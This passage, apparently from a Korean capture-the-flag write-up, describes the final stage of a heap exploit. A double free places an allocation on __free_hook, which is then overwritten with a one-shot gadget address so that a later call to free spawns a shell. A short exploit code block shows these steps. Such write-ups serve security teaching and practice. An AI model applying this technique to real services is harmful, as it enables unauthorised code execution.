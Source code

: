 ![./12.png](./12.png)

- 라이브러리 주소를 획득할 수 있다.



## shell!

- Double Free Bug를 통해 __free_hook에 할당을 한 후 oneshot 가젯 주소로 조작한다.
- free 함수를 호출하여 쉘을 획득 할 수 있다.

```cpp
# double free
free(1)
free(1)

alloc(0x10, p64(free_hook))
alloc(0x10, 'A')
alloc(0x10, p64(one_shot))

free(0)

irt()
```
